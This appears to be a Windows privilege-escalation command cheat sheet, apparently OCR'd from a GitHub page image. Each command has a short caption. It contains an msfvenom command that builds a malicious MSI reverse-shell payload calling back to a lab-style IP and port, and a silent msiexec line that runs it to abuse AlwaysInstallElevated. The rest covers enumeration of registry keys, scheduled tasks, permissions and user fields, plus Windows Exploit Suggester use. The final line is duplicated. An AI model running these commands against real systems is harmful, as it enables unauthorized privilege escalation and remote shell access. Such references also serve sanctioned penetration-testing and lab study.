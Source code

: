`certutil -encode file1 encodedfile`

> Encode file with certutil

`certutil -decode encodedfile file2`

> Decode file with certutil

`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

> Query for always install elevated registry key (1)

`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

> Query for always install elevated registry key (2)

`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`

> Generate a malicious MSI package

`msiexec /i c:\users\lafi\desktop\aie.msi /quiet /qn /norestart`

> Executing an MSI package from command line

`schtasks /query /fo LIST /v`

> Enumerate scheduled tasks

`Get-ScheduledTask | select TaskName,State`

> Enumerate scheduled tasks with PowerShell

`.\accesschk64.exe /accepteula -s -d C:\Scripts\`

> Check permissions on a directory

`Get-LocalUser`

> Check local user description field

`Get-WmiObject -Class Win32_OperatingSystem | select Description`

> Enumerate computer description field

`guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`

> Mount VMDK on Linux

`guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`

> Mount VHD/VHDX on Linux

`sudo python2.7 windows-exploit-suggester.py --update`

> Update Windows Exploit Suggester database

`python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt`

> Running Windows Exploit Suggester

REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUAREG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
